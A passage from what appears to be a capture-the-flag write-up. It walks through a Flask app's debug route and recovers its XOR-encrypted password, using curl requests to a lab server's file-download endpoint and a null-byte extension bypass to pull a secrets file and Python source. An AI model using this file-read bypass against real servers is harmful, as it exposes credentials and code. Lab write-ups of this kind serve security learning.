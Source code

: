 Now that we understood this we can download the file where the password for the debug console is stored:
```python
from flask import *
import hashlib
import os
import ip # from .
import debugpassword # from .
import pwn

app = Flask(__name__)
app.secret_key = os.urandom(32)
password = str(open('supersecrettip.txt').readline().strip())

<..SNIP..>

@app.route("/debug", methods=["GET"]) 
def debug():
    debug = request.args.get('debug')
    user_password = request.args.get('password')
    
    if not user_password or not debug:
        return render_template("debug.html")
    result, error = illegal_chars_check(debug)
    if result is True:
        return render_template("debug.html", error=error)

    # I am not very eXperienced with encryptiOns, so heRe you go!
    encrypted_pass = str(debugpassword.get_encrypted(user_password)) 
    if encrypted_pass != password:
        return render_template("debug.html", error="Wrong password.")
    
    
    session['debug'] = debug
    session['password'] = encrypted_pass
        
    return render_template("debug.html", result="Debug statement executed.")
<SNIP>
```
From this function we can see that it takes a password and check it against the encrypted password.<br>
The hardcoded password is inside the `supersecrettip.txt` file, so we can go haead and download it:
```bash
curl -X POST 'http://10.10.198.19:7777/cloud' -d 'download=supersecrettip.txt'
```
The output is in bytes:
```python
b' \x00\x00\x00\x00%\x1c\r\x03\x18\x06\x1e'
```
When we input the password, the server is going to encrypt it and check it against that string above, but how.<br>
To understand that we can take a look at the `debugpassword` class that it is imported from the path `./`.<br>
The python files that are imported can be retrived by adding the `.py` extension at the end, let's merge it with our previous bypass:
```bash
curl -X POST 'http://10.10.198.19:7777/cloud' -d 'download=debugpassword.py%00.txt'
```
output:
```python
import pwn

def get_encrypted(passwd):
    return pwn.xor(bytes(passwd, 'utf-8'), b'ayham')
```